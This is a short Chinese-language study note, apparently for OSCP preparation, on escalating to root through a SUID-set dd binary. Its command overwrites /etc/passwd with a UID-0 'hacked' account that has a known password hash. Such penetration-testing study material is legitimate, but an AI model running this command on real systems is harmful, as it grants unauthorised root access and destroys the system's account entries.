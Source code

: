 # dd

dd suid 提权思想：利用 s 权限写入内容覆盖系统文件，例如`etc/passwd`、`etc/sudoers`等

如果 `dd` 具有 s 权限，可使用如下命令获取 root 权限：
```
# 注意，覆盖passwd 文件后，当前用户 shell 可能失效，因此最好先备份一个 passwd
cp /etc/passwd . 
echo -e 'root:*:0:0:System Administrator:/var/root:/bin/sh\nhacked:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash' | dd of=/etc/passwd # 注意必须是单引号
```
![dd](https://github.com/Nongcloud/oscp-Learn/tree/master/Privilege-Escalation/SUID/images/suid-dd.png)

